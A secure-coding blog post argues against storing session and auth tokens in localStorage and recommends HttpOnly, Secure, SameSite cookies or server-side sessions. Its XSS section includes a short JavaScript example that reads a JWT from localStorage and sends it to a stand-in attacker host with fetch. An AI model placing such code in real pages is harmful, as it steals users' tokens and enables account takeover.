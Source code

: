 ```yaml
---
title: Do Not Use LocalStorage To Save Session and Auth Tokens(Or Any Sensitive Information.)
description: An in-depth look at the security risks inherent in using localStorage to store sensitive informations and robust alternatives that ensure user data is protected.
slug: do-not-use-localstorage-to-save-session-and-auth-tokens
# image: localstorage-token.png
categories:
  - web-application-security
tags:
  - Authentication
  - Web Application Security
  - LocalStorage
weight: 1 # You can add weight to some posts to override the default sorting (date descending)
---
```


# Why using LocalStorage to save sensitive information is UNACCEPTABLE in 2025

Let's be clear. It's 2025. If you, as a developer, are still saving authentication tokens or any other sensitive information in localStorage, you're doing it wrong. Period.

I'm deeply irritated by the number of tutorials, bootcamps, and articles that perpetuate this ridiculous practice. It's a disservice to our profession and a wide-open door to vulnerabilities that should have been eliminated long ago. There's no longer any excuse for making this mistake.

This article isn't a debate. It's an eviction order for an insecure practice. If you teach this, stop.

## First: What is LocalStorage?

It's a browser storage API. A simple JavaScript object where you throw key-value pairs. The end. It's designed to store trivial things, like a user's preference for a dark theme. Not to store the key to a safe. Using it for tokens is like writing down your bank password on a Post-it note and sticking it on your forehead.

# What sucks about localStorage? (Besides security)

Before we even get into the security debacle, localStorage is a technically poor tool for modern web development.

- **Blocks the Damn Main Thread**: It's synchronous. Every getItem or setItem locks up the UI. While the browser reads from disk, your application freezes. In 2025, with the obsession with performance and 60fps, using a synchronous API for I/O is just plain stupid.
- **Only Storage Garbage (Strings)**: It doesn't store objects. You're forced to do the JSON.stringify() and JSON.parse() nonsense for everything, adding useless code and potential points of failure. It's primitive.
- **Doesn't Talk to Web Workers**: Need to do heavy background processing to avoid crashing the page? Great. But your Web Workers don't have access to localStorage. It's useless for any minimally sophisticated architecture that requires shared state with background threads.
- **Single Origin**: localStorage is locked to the exact origin. `app.site.com` can't read what `api.site.com` has stored. For authentication that needs to work across subdomains, it dies here.

For these reasons alone, he would be a poor choice. But now, let's get to the main crime.

# The Deadly Sin: Cross-Site Scripting (XSS)

This is why any senior developer will laugh at you (or fire you) if you use localStorage for tokens.

Any script injected into your page has full and unrestricted access to localStorage. ANY SCRIPT.

An XSS attack occurs when an attacker manages to inject a piece of JavaScript into your application. A malicious comment, an unhandled URL parameter, any slip-up. And all it takes is one line:

```javascript
// malicious actor script injected into your page
const stolenToken = localStorage.getItem('jwt_token');

// send to the server (c2, etc.)
fetch(`https://hacker-server.com/stolen-token?token=?token=${stolenToken}`);
```

GAME OVER.

The attacker has the token. They are now your user. They can access data, make purchases, transfer money, and delete the account. And it's your fault for leaving the key under the rug. Trusting that your application is 100% XSS-proof is the height of arrogance.

# The Obvious Solution They Ignore: Cookies

The solution isn't new, it's not sexy, but it's the right one and has worked for decades: cookies. But not just any cookie thrown in. Cookies configured like a pro.

When your backend generates a token, it must enclose it in a cookie with three MANDATORY flags:

- `HttpOnly`: The most important. It makes the cookie **INACCESSIBLE** to client-side JavaScript. `document.cookie` simply doesn't see this cookie. The XSS attack we described becomes useless. The attacker's script tries to read it and finds nothing. Problem solved.
- `Secure`: Ensures that the cookie only travels over HTTPS. This prevents anyone in the middle (on a public Wi-Fi network, for example) from reading the cookie in plain text. This is basic digital hygiene.
- `SameSite=Strict (or Lax)`: Your weapon against **CSRF (Cross-Site Request Forgery)** attacks. Prevents the browser from sending the cookie in requests from other sites, preventing a user from being tricked into performing actions without knowing.

Your response header should look like this, no excuses:

`Set-Cookie: session_token=SEU_TOKEN_AQUI; HttpOnly; Secure; SameSite=Strict`

# Classic Alternative: Server Sessions

If you don't like JWTs or have a more traditional application, use the time-tested and proven method: server-side sessions.

In this model, the server stores all sensitive data and sends only a random session ID to the client, inside a cookie with the same flags (HttpOnly, Secure, SameSite).

# No More Excuses

Your job isn't to do the easiest thing, it's to do the right thing. Safety isn't a luxury; it's the foundation.

- **NEVER** use localStorage for tokens or any sensitive data.
- **ALWAYS** use cookies.
- Your cookie **MUST** have the HttpOnly, Secure, and SameSite attributes.
- Choose between Server-Side Sessions (stateful) or JWTs in Cookies (stateless) depending on your architecture.
